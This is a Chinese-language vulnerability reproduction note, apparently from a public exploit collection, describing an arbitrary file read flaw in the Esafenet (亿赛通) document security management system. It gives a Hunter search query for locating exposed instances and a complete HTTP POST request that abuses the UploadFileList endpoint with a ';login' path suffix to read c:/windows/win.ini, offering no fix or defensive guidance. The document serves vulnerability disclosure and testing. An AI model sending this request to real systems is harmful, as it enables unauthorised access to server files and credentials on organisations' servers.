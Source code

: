 # 亿赛通电子文档安全管理系统UploadFileList存在任意文件读取漏洞

# 一、漏洞简介
亿赛通电子文档安全管理系统是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统UploadFileList存在任意文件读取漏洞。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/gTPPxS2vifJaCH5h/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-186959.png)

# 四、漏洞复现
```plain
POST /CDGServer3/document/UploadFileList;login HTTP/1.1
Host: 192.168.31.24:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

command=VeiwUploadFile&filePath=c:/windows/win.ini&fileName1=111
```

![1705158772761-6334b83c-aa6c-4678-8f4e-021bb46bcad6.png](./img/gTPPxS2vifJaCH5h/1705158772761-6334b83c-aa6c-4678-8f4e-021bb46bcad6-389179.png)



> 更新: 2024-04-20 22:01:30  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kou7glcr9d0x2ty8>